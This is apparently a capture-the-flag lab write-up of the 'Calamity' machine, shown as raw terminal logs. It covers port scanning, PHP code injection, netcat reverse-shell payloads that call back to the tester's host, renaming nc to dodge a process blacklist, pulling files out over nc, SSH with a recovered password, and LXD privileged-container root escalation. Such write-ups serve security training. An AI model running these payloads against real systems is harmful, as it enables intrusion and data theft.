

#### Calamity

```sh
root@kali:~# nmap -sV -sC -oA nmap 10.10.10.27

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-20 14:00 EST
Nmap scan report for 10.10.10.27
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.75 seconds
root@kali:~#
```


```sh
root@kali:~# apt install gobuster
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required:
  hashcat-data lib64gcc1 lib64stdc++6 libasan3 libc6-amd64 libclang-common-3.8-dev libclang1-3.8
  libffi-dev libgcc-6-dev libllvm3.8 libobjc-6-dev libobjc4 libpocl1-common libtinfo-dev llvm-3.8
  llvm-3.8-dev llvm-3.8-runtime python-all python-bson python-bson-ext python-gridfs python-pymongo
  python-pymongo-ext
Use 'apt autoremove' to remove them.
The following NEW packages will be installed:
  gobuster
0 upgraded, 1 newly installed, 0 to remove and 901 not upgraded.
Need to get 955 kB of archives.
After this operation, 3,114 kB of additional disk space will be used.
Get:1 http://mirrors.ocf.berkeley.edu/kali kali-rolling/main i386 gobuster i386 1.2-0kali1 [955 kB]
Fetched 955 kB in 0s (1,112 kB/s)
Selecting previously unselected package gobuster.
(Reading database ... 341608 files and directories currently installed.)
Preparing to unpack .../gobuster_1.2-0kali1_i386.deb ...
Unpacking gobuster (1.2-0kali1) ...
Setting up gobuster (1.2-0kali1) ...
root@kali:~#
```

```sh
root@kali:~# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -u http://10.10.10.27 -t 25

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.27/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .php,.html
=====================================================
/index.html (Status: 200)
/uploads (Status: 301)
/admin.php (Status: 200)

root@kali:~# 
```


```
```


```
<h1>HTML Injection</h1>
```


```
<?php system('ls -lah'); ?>
```





[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.157 1234 >/tmp/f')?>
```

URL-encode in burp &rarr; ``Ctrl + U``

```php
<%3fphp+system('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.15.157+1234+>/tmp/f')%3f>
```


```sh
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.27: inverse host lookup failed: Unknown host
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.27] 43646
/bin/sh: 0: can't access tty; job control turned off
$ root@kali:~#
```

```php
<%3fphp+system('ls;sleep+10;whoami')%3f>
```


```php
<%3fphp+system('find+/home')%3f>
```


```php
<%3fphp+system('find+/home+-ctime+-60')%3f>
```


```php
<%3fphp+system('cat+/home/xalvas/intrusions')%3f>
```


```php
<%3fphp+system('which+nc')%3f>
```


```php
<%3fphp+system('cp+/bin/nc+/dev/shm/myback')%3f>
```


```php
<%3fphp+system('chmod+755+/dev/shm/myback')%3f>
```


```
<%3fphp+system('rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|/dev/shm/myback+10.10.15.157+1234+>/tmp/f')%3f>
```


```sh
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.27: inverse host lookup failed: Unknown host
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.27] 47374
/bin/sh: 0: can't access tty; job control turned off
$ ls -lah
total 284K
drwxr-xr-x 3 root     root 4.0K Jun 27  2017 .
drwxr-xr-x 3 root     root 4.0K Jun 27  2017 ..
-r--r--r-- 1 www-data root 1.9K Jun 27  2017 admin.php
-r--r--r-- 1 www-data root  56K Jun 27  2017 bg.png
-r--r--r-- 1 www-data root  514 Jun 27  2017 index.html
-r--r--r-- 1 www-data root 208K Jun 27  2017 leet.png
drwxrwxrwx 2 www-data root 4.0K Jan 20 15:14 uploads
$ cd /home
$ ls
xalvas
$ cd xalvas
$ ls -lah
total 5.5M
drwxr-xr-x 9 xalvas xalvas 4.0K Jan 20 15:41 .
drwxr-xr-x 3 root   root   4.0K Jun 27  2017 ..
-rw-r--r-- 1 xalvas xalvas  220 Jun 27  2017 .bash_logout
-rw-r--r-- 1 xalvas xalvas 3.8K Jun 27  2017 .bashrc
drwx------ 2 xalvas xalvas 4.0K Jun 27  2017 .cache
drwxr-x--- 3 xalvas xalvas 4.0K Jan 20 15:14 .config
drwxrwxr-x 2 xalvas xalvas 4.0K Jan 20 15:35 .erable
-rw-rw-r-- 1 xalvas xalvas   42 Jan 20 15:41 .gdbinit
drwxrwxr-x 2 xalvas xalvas 4.0K Jun 27  2017 .nano
-rw-r--r-- 1 xalvas xalvas  655 Jun 27  2017 .profile
-rw-r--r-- 1 xalvas xalvas    0 Jun 27  2017 .sudo_as_admin_successful
-rw------- 1 xalvas xalvas 3.2K Jan 20 15:31 .viminfo
drwxr-xr-x 2 xalvas xalvas 4.0K Jun 27  2017 alarmclocks
-rw-r--r-- 1 xalvas xalvas 2.4M Jan 20 15:14 alpine-v3.7-i386-20180120_2312.tar.gz
drwxr-x--- 2 root   xalvas 4.0K Jun 29  2017 app
-rw-r--r-- 1 root   root    225 Jun 27  2017 dontforget.txt
-rw-r--r-- 1 root   root   1.6K Jan 20 15:34 intrusions
drwxrwxr-x 4 xalvas xalvas 4.0K Jun 27  2017 peda
-rw-r--r-- 1 xalvas xalvas 3.1M Jun 27  2017 recov.wav
-r--r--r-- 1 root   root     33 Jun 27  2017 user.txt
$ cd alarmclocks
$ ls -lah
total 5.6M
drwxr-xr-x 2 xalvas xalvas 4.0K Jun 27  2017 .
drwxr-xr-x 9 xalvas xalvas 4.0K Jan 20 15:41 ..
-rw-r--r-- 1 root   root   3.1M Jun 27  2017 rick.wav
-rw-r--r-- 1 root   root   2.6M Jun 27  2017 xouzouris.mp3
$ /dev/shm/myback 10.10.15.157 999 < rick.wav
$ md5sum rick.wav
a69077504fc70a0bd5a0e9ed4982a6b7  rick.wav
$ /dev/shm/myback 10.10.15.157 999 < xouzouris.mp3
$ md5sum xouzouris.mp3
553da35f2ea5e410f48762d6347ea5b8  xouzouris.mp3
$
$ cd ..
$ /dev/shm/myback 10.10.15.157 999 < recov.wav
$ md5sum recov.wav
a2c5f6ad4eee01f856348ec1e2972768  recov.wav
$
```

```sh
root@kali:~# nc -nlvp 999 > rick.wav
listening on [any] 999 ...
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.27] 48852
root@kali:~# md5sum rick.wav
a69077504fc70a0bd5a0e9ed4982a6b7  rick.wav
root@kali:~#
```

```sh
root@kali:~# nc -nlvp 999 > xouzouris.mp3
listening on [any] 999 ...
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.27] 48856
root@kali:~# md5sum xouzouris.mp3
553da35f2ea5e410f48762d6347ea5b8  xouzouris.mp3
root@kali:~#
```

```sh
root@kali:~# nc -nlvp 999 > recov.wav
listening on [any] 999 ...
connect to [10.10.15.157] from (UNKNOWN) [10.10.10.27] 48858
root@kali:~# md5sum recov.wav
a2c5f6ad4eee01f856348ec1e2972768  recov.wav
root@kali:~#
```

```sh
root@kali:~# totem recov.wav &
root@kali:~# totem rick.wav &
root@kali:~# totem xouzouris.mp3 &
```

```
apt install exiftool
```

```sh
root@kali:~# exiftool rick.wav
ExifTool Version Number         : 10.73
File Name                       : rick.wav
Directory                       : .
File Size                       : 3.0 MB
File Modification Date/Time     : 2018:01:20 15:49:00-05:00
File Access Date/Time           : 2018:01:20 15:49:03-05:00
File Inode Change Date/Time     : 2018:01:20 15:49:00-05:00
File Permissions                : rw-r--r--
File Type                       : WAV
File Type Extension             : wav
MIME Type                       : audio/x-wav
Encoding                        : Microsoft PCM
Num Channels                    : 2
Sample Rate                     : 44100
Avg Bytes Per Sec               : 176400
Bits Per Sample                 : 16
Duration                        : 18.12 s
root@kali:~#
```

```sh
root@kali:~# exiftool recov.wav
ExifTool Version Number         : 10.73
File Name                       : recov.wav
Directory                       : .
File Size                       : 3.0 MB
File Modification Date/Time     : 2018:01:20 15:53:26-05:00
File Access Date/Time           : 2018:01:20 15:53:29-05:00
File Inode Change Date/Time     : 2018:01:20 15:53:26-05:00
File Permissions                : rw-r--r--
File Type                       : WAV
File Type Extension             : wav
MIME Type                       : audio/x-wav
Encoding                        : Microsoft PCM
Num Channels                    : 2
Sample Rate                     : 44100
Avg Bytes Per Sec               : 176400
Bits Per Sample                 : 16
Comment                         : Isn't this were we came in?
Duration                        : 18.12 s
root@kali:~#
```

```sh
root@kali:~# exiftool xouzouris.mp3
ExifTool Version Number         : 10.73
File Name                       : xouzouris.mp3
Directory                       : .
File Size                       : 2.5 MB
File Modification Date/Time     : 2018:01:20 15:51:22-05:00
File Access Date/Time           : 2018:01:20 15:51:42-05:00
File Inode Change Date/Time     : 2018:01:20 15:51:22-05:00
File Permissions                : rw-r--r--
File Type                       : MP3
File Type Extension             : mp3
MIME Type                       : audio/mpeg
MPEG Audio Version              : 1
Audio Layer                     : 3
Sample Rate                     : 44100
Channel Mode                    : Stereo
MS Stereo                       : Off
Intensity Stereo                : Off
Copyright Flag                  : False
Original Media                  : False
Emphasis                        : None
VBR Frames                      : 6329
VBR Bytes                       : 2645680
ID3 Size                        : 159
User Defined Text               : (compatible_brands) isommp42
Encoding Time                   : 2014:06:19 00:16:06
Encoder Settings                : Lavf53.32.100
Audio Bitrate                   : 128 kbps
Duration                        : 0:02:45 (approx)
root@kali:~#
```

[``audiodiff``](https://audiodiff.readthedocs.io/en/latest/)

```sh
apt-get install ffmpeg
```

```sh
root@kali:~# pip install audiodiff
Collecting audiodiff
  Downloading audiodiff-0.3.0.tar.gz (2.0MB)
    100% |████████████████████████████████| 2.0MB 421kB/s
Collecting mutagenwrapper==0.0.5 (from audiodiff)
  Downloading mutagenwrapper-0.0.5.tar.gz (313kB)
    100% |████████████████████████████████| 317kB 2.6MB/s
Collecting termcolor==1.1.0 (from audiodiff)
  Downloading termcolor-1.1.0.tar.gz
Collecting mutagen==1.21 (from mutagenwrapper==0.0.5->audiodiff)
  Downloading mutagen-1.21.tar.gz (795kB)
    100% |████████████████████████████████| 798kB 1.1MB/s
Building wheels for collected packages: audiodiff, mutagenwrapper, termcolor, mutagen
  Running setup.py bdist_wheel for audiodiff ... done
  Stored in directory: /root/.cache/pip/wheels/2f/fa/1c/f83db4f1cad09c0fffc1ff2d6b86af7f4d91dd47d1f7615ade
  Running setup.py bdist_wheel for mutagenwrapper ... done
  Stored in directory: /root/.cache/pip/wheels/a6/a8/53/34d388a1ab012662e412ed6af56abe9a7d26a9a4661e3109b5
  Running setup.py bdist_wheel for termcolor ... done
  Stored in directory: /root/.cache/pip/wheels/de/f7/bf/1bcac7bf30549e6a4957382e2ecab04c88e513117207067b03
  Running setup.py bdist_wheel for mutagen ... done
  Stored in directory: /root/.cache/pip/wheels/ae/05/e8/942058278f78af606c4885278e0357a9c8f729058356f3fb14
Successfully built audiodiff mutagenwrapper termcolor mutagen
Installing collected packages: mutagen, mutagenwrapper, termcolor, audiodiff
Successfully installed audiodiff-0.3.0 mutagen-1.21 mutagenwrapper-0.0.5 termcolor-1.1.0
root@kali:~#
```

```sh
root@kali:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02)
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import audiodiff
>>> audiodiff.audio_equal('rick.wav', 'recov.wav')
False
>>>
```


```
Username: xalvas
Password: 18547936..*
```

```sh
root@kali:~# ssh xalvas@10.10.10.27
The authenticity of host '10.10.10.27 (10.10.10.27)' can't be established.
ECDSA key fingerprint is SHA256:yT6ino7wgCPkMVczALjJ+BeH7VZB+It79p9HRVPEyuY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.27' (ECDSA) to the list of known hosts.
xalvas@10.10.10.27's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

9 packages can be updated.
8 updates are security updates.


Last login: Sat Jan 20 16:45:54 2018 from 10.10.15.169
xalvas@calamity:~$ ls -l
total 7996
drwxr-xr-x 2 xalvas xalvas    4096 Jun 27  2017 alarmclocks
-rw-r--r-- 1 xalvas xalvas 2480980 Jan 20 15:14 alpine-v3.7-i386-20180120_2312.tar.gz
-rw-rw-r-- 1 xalvas xalvas 2480896 Jan 20 14:13 alpine-v3.7-i686-20180120_1407.tar.gz
drwxr-x--- 2 root   xalvas    4096 Jun 29  2017 app
-rw-r--r-- 1 root   root       225 Jun 27  2017 dontforget.txt
-rw-r--r-- 1 root   root      1729 Jan 20 16:05 intrusions
drwxrwxr-x 4 xalvas xalvas    4096 Jun 27  2017 peda
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
-r--r--r-- 1 root   root        33 Jun 27  2017 user.txt
xalvas@calamity:~$ cd app/
xalvas@calamity:~/app$ ls -la
total 28
drwxr-x--- 2 root   xalvas  4096 Jun 29  2017 .
drwxr-xr-x 8 xalvas xalvas  4096 Jan 20 16:08 ..
-r-sr-xr-x 1 root   root   12584 Jun 29  2017 goodluck
-r--r--r-- 1 root   root    3936 Jun 29  2017 src.c
xalvas@calamity:~/app$ cd ..
xalvas@calamity:~$ cat intrusions
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 04:55:42.796288
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:22:11.228988
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-28 05:23:23.424719
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2017-06-29 02:43:57.083849
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 02:48:47.909739
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.202315
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS sh         ...PROCESS KILLED AT 2017-06-29 06:25:04.780685
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python     ...PROCESS KILLED AT 2017-06-29 06:25:06.209358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.329358
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:15:32.330115
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.508710
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2017-06-29 12:16:10.510537
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python3    ...PROCESS KILLED AT 2017-12-24 10:30:28.836132
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS python3    ...PROCESS KILLED AT 2018-01-20 14:53:19.130478
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2018-01-20 15:30:55.235771
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc         ...PROCESS KILLED AT 2018-01-20 15:34:36.933766
POSSIBLE INTRUSION BY BLACKLISTED PROCCESS nc        ...PROCESS KILLED AT 2018-01-20 16:05:41.344556
xalvas@calamity:~$
```

```sh
xalvas@calamity:~$ pkill sdbfdjhfghdv $(sleep 5)
xalvas@calamity:~$ touch -- 'nc $(sleep 100)'
xalvas@calamity:~$ ls
alarmclocks  alpine-v3.7-i386-20180120_2312.tar.gz  alpine-v3.7-i686-20180120_1407.tar.gz  app  dontforget.txt  intrusions  nc $(sleep 100)  peda  recov.wav  user.txt
xalvas@calamity:~$ cp /bin/nc nc\ \$\(sleep\ 100\)
xalvas@calamity:~$ chmod 755 nc\ \$\(sleep\ 100\)
xalvas@calamity:~$ ./nc\ \$\(sleep\ 100\)
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-q seconds] [-s source]
	  [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]
xalvas@calamity:~$
```

[``lxd-alpine-builder``](https://github.com/saghul/lxd-alpine-builder)

```sh
root@kali:~/calamity# git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Counting objects: 23, done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 23
Unpacking objects: 100% (23/23), done.
root@kali:~/calamity# cd lxd-alpine-builder/
root@kali:~/calamity/lxd-alpine-builder# ./build-alpine -a i386
Determining the latest release... v3.7
Using static apk from http://wiki.alpinelinux.org/cgi-bin/dl.cgi/v3.7/main/x86
Downloading alpine-keys-2.1-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-mirrors-3.5.6-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading apk-tools-static-2.8.2-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub: OK
Verified OK
Selecting mirror http://dl-cdn.alpinelinux.org/alpine/v3.7/main
fetch http://dl-cdn.alpinelinux.org/alpine/v3.7/main/x86/APKINDEX.tar.gz
(1/16) Installing musl (1.1.18-r2)
(2/16) Installing busybox (1.27.2-r7)
Executing busybox-1.27.2-r7.post-install
(3/16) Installing alpine-baselayout (3.0.5-r2)
Executing alpine-baselayout-3.0.5-r2.pre-install
Executing alpine-baselayout-3.0.5-r2.post-install
(4/16) Installing openrc (0.24.1-r4)
Executing openrc-0.24.1-r4.post-install
(5/16) Installing alpine-conf (3.7.0-r0)
(6/16) Installing libressl2.6-libcrypto (2.6.3-r0)
(7/16) Installing libressl2.6-libssl (2.6.3-r0)
(8/16) Installing zlib (1.2.11-r1)
(9/16) Installing apk-tools (2.8.2-r0)
(10/16) Installing busybox-suid (1.27.2-r7)
(11/16) Installing busybox-initscripts (3.1-r2)
Executing busybox-initscripts-3.1-r2.post-install
(12/16) Installing scanelf (1.2.2-r1)
(13/16) Installing musl-utils (1.1.18-r2)
(14/16) Installing libc-utils (0.7.1-r0)
(15/16) Installing alpine-keys (2.1-r1)
(16/16) Installing alpine-base (3.7.0-r0)
Executing busybox-1.27.2-r7.trigger
OK: 6 MiB in 16 packages
root@kali:~/calamity/lxd-alpine-builder# ls
alpine-v3.7-i386-20180120_1806.tar.gz  build-alpine  LICENSE  README.md
root@kali:~/calamity/lxd-alpine-builder#
```

```sh
root@kali:~/calamity/lxd-alpine-builder# scp alpine-v3.7-i386-20180120_1806.tar.gz xalvas@10.10.10.27:
xalvas@10.10.10.27's password:
alpine-v3.7-i386-20180120_1806.tar.gz                                                                                                                                     100% 2401KB 133.3KB/s   00:18
root@kali:~/calamity/lxd-alpine-builder#
```

```sh
root@kali:~/calamity/lxd-alpine-builder# ssh xalvas@10.10.10.27
xalvas@10.10.10.27's password:
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

9 packages can be updated.
8 updates are security updates.


Last login: Sat Jan 20 16:55:38 2018 from 10.10.15.157
xalvas@calamity:~$ ls -la
total 5592
drwxr-xr-x 8 xalvas xalvas    4096 Jan 20 18:11 .
drwxr-xr-x 3 root   root      4096 Jun 27  2017 ..
drwxr-xr-x 2 xalvas xalvas    4096 Jun 27  2017 alarmclocks
-rw-r--r-- 1 xalvas xalvas 2458926 Jan 20 18:09 alpine-v3.7-i386-20180120_1806.tar.gz
drwxr-x--- 2 root   xalvas    4096 Jun 29  2017 app
-rw-r--r-- 1 xalvas xalvas     220 Jun 27  2017 .bash_logout
-rw-r--r-- 1 xalvas xalvas    3790 Jun 27  2017 .bashrc
drwx------ 2 xalvas xalvas    4096 Jun 27  2017 .cache
drwxr-x--- 3 xalvas xalvas    4096 Jan 20 15:14 .config
-rw-r--r-- 1 root   root       225 Jun 27  2017 dontforget.txt
-rw-rw-r-- 1 xalvas xalvas      42 Jan 20 15:41 .gdbinit
-rw-r--r-- 1 root   root      4052 Jan 20 18:05 intrusions
drwxrwxr-x 2 xalvas xalvas    4096 Jun 27  2017 .nano
drwxrwxr-x 4 xalvas xalvas    4096 Jun 27  2017 peda
-rw-r--r-- 1 xalvas xalvas     655 Jun 27  2017 .profile
-rw-r--r-- 1 xalvas xalvas 3196724 Jun 27  2017 recov.wav
-rw-r--r-- 1 xalvas xalvas       0 Jun 27  2017 .sudo_as_admin_successful
-r--r--r-- 1 root   root        33 Jun 27  2017 user.txt
-rw------- 1 xalvas xalvas    3979 Jan 20 15:56 .viminfo
xalvas@calamity:~$ mkdir .kan1shka9
xalvas@calamity:~$ mv alpine-v3.7-i386-20180120_1806.tar.gz .kan1shka9/
xalvas@calamity:~/.kan1shka9$ ls -la
total 2412
drwxrwxr-x 2 xalvas xalvas    4096 Jan 20 18:13 .
drwxr-xr-x 9 xalvas xalvas    4096 Jan 20 18:13 ..
-rw-r--r-- 1 xalvas xalvas 2458926 Jan 20 18:09 alpine-v3.7-i386-20180120_1806.tar.gz
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc image import alpine-v3.7-i386-20180120_1806.tar.gz --alias alpine-v3.3
Image imported with fingerprint: 9aa690b2ad28da51f59f664872109287d455f955acb2676918d2ba83173d8816
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc image list
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
|    ALIAS    | FINGERPRINT  | PUBLIC |         DESCRIPTION          | ARCH |  SIZE  |          UPLOAD DATE          |
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
| alpine      | 30ad32649437 | no     | alpine v3.7 (20180120_23:12) | i686 | 2.37MB | Jan 20, 2018 at 8:16pm (UTC)  |
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
| alpine-v3.3 | 9aa690b2ad28 | no     | alpine v3.7 (20180120_18:06) | i686 | 2.35MB | Jan 20, 2018 at 11:15pm (UTC) |
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
|             | 9258156e39a7 | no     | alpine v3.7 (20180120_11:51) | i686 | 2.36MB | Jan 20, 2018 at 8:36pm (UTC)  |
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
|             | b30301e38fd4 | no     | alpine v3.7 (20180120_14:07) | i686 | 2.37MB | Jan 20, 2018 at 9:01pm (UTC)  |
+-------------+--------------+--------+------------------------------+------+--------+-------------------------------+
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc init alpine-v3.3 myb0x -c security.privileged=true
Creating myb0x
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc list
+-------------+---------+------+------+------------+-----------+
|    NAME     |  STATE  | IPV4 | IPV6 |    TYPE    | SNAPSHOTS |
+-------------+---------+------+------+------------+-----------+
| alpsarecold | RUNNING |      |      | PERSISTENT | 0         |
+-------------+---------+------+------+------------+-----------+
| myb0x       | STOPPED |      |      | PERSISTENT | 0         |
+-------------+---------+------+------+------------+-----------+
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc config device add myb0x host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to myb0x
xalvas@calamity:~/.kan1shka9$
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc start myb0x
```

```sh
xalvas@calamity:~/.kan1shka9$ lxc exec myb0x /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -l
total 0
~ # cd /mnt/root
/mnt/root # ls -l
total 100
drwxr-xr-x    2 root     root          4096 Jun 28  2017 bin
drwxr-xr-x    3 root     root          4096 Jun 27  2017 boot
drwxr-xr-x   18 root     root          3880 Jan 20 19:53 dev
drwxr-xr-x   96 root     root          4096 Jun 28  2017 etc
drwxr-xr-x    3 root     root          4096 Jun 27  2017 home
lrwxrwxrwx    1 root     root            32 Jun 27  2017 initrd.img -> boot/initrd.img-4.4.0-81-generic
lrwxrwxrwx    1 root     root            32 Jun 27  2017 initrd.img.old -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x   22 root     root          4096 Jun 27  2017 lib
drwx------    2 root     root         16384 Jun 27  2017 lost+found
drwxr-xr-x    3 root     root          4096 Jun 27  2017 media
drwxr-xr-x    2 root     root          4096 Feb 15  2017 mnt
drwxr-xr-x    2 root     root          4096 Feb 15  2017 opt
dr-xr-xr-x  263 root     root             0 Jan 20 19:52 proc
drwx------    5 root     root          4096 Jun 30  2017 root
drwxr-xr-x   25 root     root           900 Jan 20 23:10 run
drwxr-xr-x    2 root     root         12288 Jun 27  2017 sbin
-rw-r--r--    1 root     root         12548 Jun 29  2017 sec
drwxr-xr-x    2 root     root          4096 Jan 14  2017 snap
drwxr-xr-x    2 root     root          4096 Feb 15  2017 srv
dr-xr-xr-x   13 root     root             0 Jan 20 19:55 sys
d-wx-wx-wx   15 root     root          4096 Jan 20 23:17 tmp
drwxr-xr-x   10 root     root          4096 Jun 27  2017 usr
